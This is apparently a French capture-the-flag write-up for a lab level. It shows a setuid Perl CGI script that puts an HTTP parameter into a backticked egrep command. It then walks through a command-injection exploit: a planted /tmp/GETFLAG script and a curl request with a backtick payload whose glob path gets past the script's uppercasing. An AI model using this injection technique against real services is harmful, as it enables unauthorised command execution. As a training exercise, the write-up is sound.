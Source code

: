 # Level 12

Home structure
```
$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

n(t(param("x"), param("y")));
```
Comme le script dans level 04, le script récupère les paramètres `x` et `y` d'une requête HTTP, exécute la commande système `egrep` pour rechercher dans le fichier `/tmp/xd` en utilisant la valeur de `x` en ayant mis toutes les lettres en majuscules avant, puis affiche des points en fonction des résultats de la recherche et de la valeur de `y`. Le nombre de points affichés dépend de la correspondance trouvée et de la valeur de `y`.

Ce qui voudrait dire qu'on pourrait exécuter n'importe quel commandes via le paramètre `x`.

On pourrait tous simplement essayer: `curl localhost:4646/level12.pl?x='${getflag}'`, mais on va que le script va rendre le paramètre X tous en maj. Donc ce qui nous fait `${GETFLAG}` et la commande `GETFLAG` n'existe pas. Alors ce qui faudrait faire c'est le créer.

```
$ echo "getflag | wall" > /tmp/GETFLAG
$ chmod 777 /tmp/GETFLAG
$ curl localhost:4646/level12.pl?x='`/*/GETFLAG`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
On est malheureusement obligé de mettre le `/*/` pour compléter le path sans mettre de minuscule (`/tmp/` va se transformer en `/TMP/` ce qui n'existe pas.)
